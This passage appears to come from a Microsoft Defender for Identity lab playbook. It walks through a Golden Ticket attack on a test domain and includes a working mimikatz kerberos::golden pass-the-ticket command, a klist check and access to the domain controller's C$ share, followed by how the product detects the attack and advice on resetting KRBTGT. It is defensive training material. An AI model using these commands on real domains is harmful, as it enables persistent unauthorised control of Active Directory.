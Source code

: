    ```cmd
   mimikatz.exe "privilege::debug" "kerberos::golden /domain:contoso.azure /sid:S-1-5-21-2839646386-741382897-445212193 /krbtgt:c96537e5dca507ee7cfdede66d33103e /user:SamiraA /ticket:c:\temp\GTSamiraA_2018-11-28.kirbi /ptt" "exit"
   ```

    ![Generate the Golden Ticket.](media/playbook-dominance-golden_generate.png)

   The `/ptt` part of the command allowed us to immediately pass the generated ticket into memory.

1. Let's make sure the credential is in memory.  Execute `klist` in the console.

    ![klist results after passing the generated ticket.](media/playbook-dominance-golden_klist.png)

1. Acting as an attacker, execute the following Pass-the-Ticket command to use it against the DC:

   ```cmd
   dir \\ContosoDC\c$
   ```

   Success! You generated a **fake** Golden Ticket for SamiraA.

    ![Execute Golden Ticket via mimikatz.](media/playbook-dominance-golden_ptt.png)

Why did it work? The Golden Ticket Attack works because the ticket generated was properly signed with the 'KRBTGT' key we harvested earlier. This ticket allows us, as the attacker, to gain access to ContosoDC and add ourselves to any Security Group that we wish to use.

#### Golden Ticket- Existing User attack detection

Defender for Identity uses multiple methods to detect suspected attacks of this type. In this exact scenario, Defender for Identity detected the encryption downgrade of the fake ticket.

![Golden Ticket being detected.](media/playbook-dominance-golden_detected.png)

> [!IMPORTANT]
>Reminder. As long as the KRBTGT harvested by an attacker remains valid within an environment, the tickets generated with it also remain valid. In this case, the attacker achieves persistent domain dominance until the [KRBTGT is reset, twice](/windows-server/identity/ad-ds/manage/ad-forest-recovery-resetting-the-krbtgt-password).

## Next steps

- [Microsoft Defender for Identity Security Alerts](alerts-overview.md)
- [Microsoft Defender for Identity Lateral Movement Paths (LMPs)](understand-lateral-movement-paths.md)
- [Check out the Defender for Identity forum!](<https://aka.ms/MDIcommunity>)
